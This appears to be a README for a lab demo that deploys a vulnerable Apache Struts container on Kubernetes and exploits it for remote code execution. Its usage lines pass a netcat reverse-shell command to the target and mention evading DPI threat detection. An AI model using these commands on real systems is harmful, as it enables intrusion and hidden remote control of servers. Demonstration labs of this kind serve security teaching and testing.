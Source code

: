 # struts-demo
Scripts for struts RCE demo and yaml file to deploy vulnerable container running struts super-app tomcat website.

Deploy the struts container via yaml file to kubernetes cluster

```
kubectl create namespace struts
kubectl create -f struts.yaml -n struts
```

A service is created for the website.  Use the IP address from the website with the python scripts to exploit a remote code execution vul in the struts container.

```
kubectl get svc -n struts; k get pods -n struts
```

Use the struts1.py first (insert your own IP addresses for the website and the reverse shell using 1337 (LEET) port address.

```
python3 struts1.py http://xxx.xxx.xxx.xxx:8080/super-app/orders/3 'nc -nv 123.456.789.100 1337 -e /bin/sh'
```

Then use the struts-pwn2.py script to avoid DPI threat detection.

```
python struts-pwn2.py --exploit --url 'http://xxx.xxx.xxx.xxx:8080/super-app/orders/3' -c 'nc -nv 123.456.789.100 1337 -e /bin/sh'
```
